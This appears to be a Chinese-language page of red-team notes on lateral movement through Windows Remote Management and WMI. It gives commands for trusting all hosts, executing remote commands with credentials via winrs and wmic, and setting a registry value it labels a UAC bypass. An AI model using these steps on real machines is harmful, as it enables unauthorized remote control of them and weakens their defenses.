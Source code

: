 ## WinRM

Windows 远程管理 (WinRM) 是 [WS-Management 协议](https://learn.microsoft.com/zh-cn/windows/win32/winrm/ws-management-protocol)的 Microsoft 实现，该协议是标准简单对象访问协议 (基于 SOAP) 的防火墙友好协议，允许不同供应商的硬件和操作系统之间进行互操作。

WS-Management协议规范为系统提供了一种跨 IT 基础结构访问和交换管理信息的常用方法。 WinRM 和 [智能平台管理接口 (IPMI) ](https://learn.microsoft.com/zh-cn/windows/win32/winrm/windows-remote-management-glossary#i)标准，以及 [事件收集器服务](https://learn.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2003/cc785056(v=ws.10)#event-collector) 是称为 [硬件管理](https://learn.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2003/cc785056(v=ws.10))的功能集的组件。

### 利用条件

WinRM默认使用TCP协议，并依赖于以下两个端口：

1. HTTP（默认端口5985）：WinRM可以通过HTTP协议进行通信。当使用HTTP时，通信数据不加密，可能存在安全风险。
2. HTTPS（默认端口5986）：WinRM还可以通过HTTPS协议进行加密通信。使用HTTPS可以提供更高的安全性，确保通信数据的机密性和完整性。

### Quickconfig

```cmd
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
netstat -ano | find "5985"
```

### 远程命令执行

```cmd
winrs -r:http://ip:5985 -u:username -p:password "whoami /all"
winrs -r:http://ip:5985 -u:username -p:password cmd
```

### Bypass UAC

```cmd
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

winrs -r:http://ip:5985 -u:username -p:password "whoami /groups"
```

## WMI

WMI 命令行 (WMIC) 实用工具为 Windows Management Instrumentation (WMI) 提供命令行接口。 WMIC 与现有的 shell 和实用工具命令兼容。 以下信息是 WMIC 的一般参考指南。 有关如何使用 WMIC 的详细信息和指南，包括有关别名、谓词、开关和命令的其他信息，请参阅 [使用 Windows Management Instrumentation 命令行](https://learn.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2003/cc779482(v=ws.10)) 和 [WMIC - 对 WMI 进行命令行控制](https://learn.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-2000-server/bb742610(v=technet.10))。

### 利用条件

1. 远程服务器启动Windows Management Instrumentation服务（默认开启）

2. 135 端口未被过滤 ，默认配置下目标主机防火墙开启将无法连接

### 执行命令

```cmd
# 执行命令无回显
wmic /node:ip /user:username /password:password process call create "cmd.exe /c ipconfig > c:/1.txt"
```

